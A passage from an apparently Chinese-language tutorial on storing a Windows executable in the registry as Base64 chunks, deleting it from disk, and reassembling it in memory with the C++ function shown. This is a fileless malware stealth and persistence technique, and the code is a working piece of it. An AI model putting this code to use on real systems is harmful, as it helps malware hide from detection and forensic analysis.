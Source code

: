 通过BASE64解码可以快速验证键值里面的内容是否正确，“Part1”键值内容被解码后输出如下内容（修剪过），可以看到PE文件头。

```
MZ[144][0][3][0][0][0][4][0][0][0][255][255][0][0][184][0][0][0][0][0][0][0]@[0][0][0][0][0][0][0]
[0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][240][0][0][0]
[14][31][186][14][0][180][9][205]![184][2]L[205]!This program cannot be run in DOS mode.[13][13]
[10]$[0][0][0][0][0][0][0][181]!:

```

这个时候文件已经被保存在注册表里了，同时可以从磁盘里删除了。

0x01 从注册表中提取文件
=====

此时，文件被分割成多个小块并保存在注册表里。提取文件无非与第一节相反，读取存储文件的键值的每一部分、进行BASE64解码、合并文件。示例代码如下：

```
NewProcessInfo JoinRegistryToFile(const char * const strKeyName, const char * const strValueName)
{
NewProcessInfo newProcessInfo = { 0 };
std::vector<std::array<BYTE, READ_WRITE_SIZE>> splitFile;

size_t ulKeyIndex = 1;
std::string strFullName(strValueName + std::to_string(ulKeyIndex));

bool bErrorOccured = false;
auto partFile = ReadRegistryKeyString(strKeyName, strFullName.c_str(), bErrorOccured);

while (!bErrorOccured)
{
    splitFile.push_back(partFile);

    ++ulKeyIndex;
    strFullName = strValueName + std::to_string(ulKeyIndex);

    partFile = ReadRegistryKeyString(strKeyName, strFullName.c_str(), bErrorOccured);
}

newProcessInfo.pFileData = std::unique_ptr<BYTE[]>(new BYTE[splitFile.size() * READ_WRITE_SIZE]);
memset(newProcessInfo.pFileData.get(), 0, splitFile.size() * READ_WRITE_SIZE);

size_t ulWriteIndex = 0;
for (auto &split : splitFile)
{
    (void)memcpy(&newProcessInfo.pFileData.get()[ulWriteIndex * READ_WRITE_SIZE], splitFile[ulWriteIndex].data(),
        READ_WRITE_SIZE);
    ++ulWriteIndex;
}

newProcessInfo.pDosHeader = (IMAGE_DOS_HEADER *)&(newProcessInfo.pFileData.get()[0]);
newProcessInfo.pNtHeaders = (IMAGE_NT_HEADERS *)&(newProcessInfo.pFileData.get()[newProcessInfo.pDosHeader->e_lfanew]);

 return newProcessInfo;
}

```
